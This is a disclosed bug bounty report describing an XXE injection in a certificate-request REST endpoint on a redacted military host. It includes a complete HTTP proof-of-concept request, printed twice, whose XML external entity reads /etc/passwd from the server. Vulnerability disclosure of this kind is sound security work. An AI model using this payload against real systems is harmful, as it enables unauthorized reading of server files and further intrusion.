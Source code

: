 # XML External Entity (XXE) Injection

## Report Details
- **Report ID**: 2573567
- **URL**: https://hackerone.com/reports/2573567
- **State**: Closed
- **Severity**: high
- **Submitted**: 2024-06-25T02:10:18.267Z
- **Disclosed**: 2024-07-19T14:41:33.156Z

## Reporter
- **Username**: maskedpersian
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
XML External Entity (XXE) injection vulnerability. XXE vulnerabilities occur when an application parses XML input that contains a reference to an external entity. When the XML parser is improperly configured to process external entities, it can allow an attacker to:
Read arbitrary files on the server.
Perform server-side request forgery (SSRF).
Conduct denial-of-service (DoS) attacks.
Execute remote code (in rare cases).
Host name: 	███████.mil

POC:
```
POST /ca/rest/certrequests HTTP/1.1
Host: ████████
Sec-Ch-Ua: "Google Chrome";v="125", "Chromium";v="125", "Not.A/Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-Dest: frame
Referer: https://███████/ca/ee/ca/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,fa;q=0.8
Priority: u=0, i
Connection: close
Content-Type: application/xml
Content-Length: 194

<!--?xml version="2.0" ?-->
<!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///etc/passwd"> ]>
<CertEnrollmentRequest>
  <Attributes/>
  <ProfileID>&ent;</ProfileID>
</CertEnrollmentRequest>
```

## Impact

Exploitation of this vulnerability can lead to:
1-Confidentiality Breach: Unauthorized access to sensitive information stored on the server.
2-Integrity Violation: Potential manipulation or corruption of application data.
3-Availability Disruption: Possible denial-of-service conditions due to resource exhaustion or application crashes.
4-Remote Code Execution: In extreme cases, execution of arbitrary commands on the server.

## System Host(s)
█████████.mil

## Affected Product(s) and Version(s)


## CVE Numbers


## Steps to Reproduce
```
POST /ca/rest/certrequests HTTP/1.1
Host: ██████
Sec-Ch-Ua: "Google Chrome";v="125", "Chromium";v="125", "Not.A/Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-Dest: frame
Referer: https://██████████/ca/ee/ca/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,fa;q=0.8
Priority: u=0, i
Connection: close
Content-Type: application/xml
Content-Length: 194

<!--?xml version="2.0" ?-->
<!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///etc/passwd"> ]>
<CertEnrollmentRequest>
  <Attributes/>
  <ProfileID>&ent;</ProfileID>
</CertEnrollmentRequest>
```

## Suggested Mitigation/Remediation Actions




## Attachments
No attachments
